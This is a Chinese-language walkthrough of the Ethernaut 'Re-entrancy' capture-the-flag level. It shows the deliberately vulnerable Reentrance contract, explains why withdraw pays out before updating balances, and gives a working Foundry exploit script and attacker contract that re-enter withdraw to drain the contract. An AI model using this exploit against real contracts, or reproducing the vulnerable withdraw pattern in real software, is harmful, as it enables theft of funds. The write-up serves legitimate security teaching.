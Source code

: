 # Level 10 - Re-entrancy
## 題目
[Re-entrancy](https://ethernaut.openzeppelin.com/level/0x2a24869323C0B13Dff24E196Ba072dC790D52479)

### 通關條件
這一關的目標是偷走合約的所有資產。

### 提示
- 沒被信任的(untrusted)合約可以在你意料之外的地方執行程式碼
- fallback 方法
- 拋出(throw)/恢復(revert) 的通知
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
## 解題
這題目標是偷走合約裡的所有資產，所以先找到可以轉帳的 function
 19 行的 `withdraw(uint256 _amount)` 中有使用 `msg.sender.call` 來轉帳：
```solidity=19
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }
```
提款函示 `withdraw(uint256 _amount)` 的流程：
1. 確認你的餘額（`balances[msg.sender]`）是否大於轉出的金額（`_amount`）
2. 將金額轉至你的地址
3. 從你的餘額中扣除金額

那我們可以動手腳的地方，就是在第 2 步把錢轉給我們的時候。因為 Solidity 在轉錢到別的合約時，會觸發接受方合約的 `receive()` 或是 `payable fallbakc()`，所以我們只要在 `receive()` 中再次呼叫題目的 `withdraw(uint256 _amount)`就可以產生新的提款請求，且上一筆也還沒扣除金額；造成不斷提款的效果。攻擊合約如下（會先朝關卡轉進一些錢以通過餘額判斷）：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.12;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/10_Re-entrancy.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        ReEntrancyAttacker attacker = new ReEntrancyAttacker{value: 0.001 ether}(your_challenge_address);
        attacker.attack();

        vm.stopBroadcast();
    }
}

contract ReEntrancyAttacker {
    Reentrance public level10;

    constructor(address payable _challengeInstance) public payable {
        level10 = Reentrance(_challengeInstance);
    }

    function attack() external {
        level10.donate{value: 0.001 ether}(address(this));
        level10.withdraw(0.001 ether);
    }

    receive() external payable{
        level10.withdraw(0.001 ether);
    }
}
```

這種攻擊的思路有點像是 [Recursive Functions](https://www.geeksforgeeks.org/recursive-functions/) 的概念，讓合約不斷重複呼叫導致流程沒有照著預期進行，這種攻擊手法在智能合約中被稱做 **Reentrancy attacks**，關於這個攻擊手法更多詳細可以參考：
- [WTF Solidity 合约安全: S01. 重入攻击](https://github.com/AmazingAng/WTF-Solidity/tree/main/S01_ReentrancyAttack)
- [Reentrancy Attack in Smart Contracts](https://medium.com/chainwall-io/reentrancy-attack-in-smart-contracts-4837ed0f9d73)
- [Solidity by Example - Re-entrancy](https://solidity-by-example.org/hacks/re-entrancy/)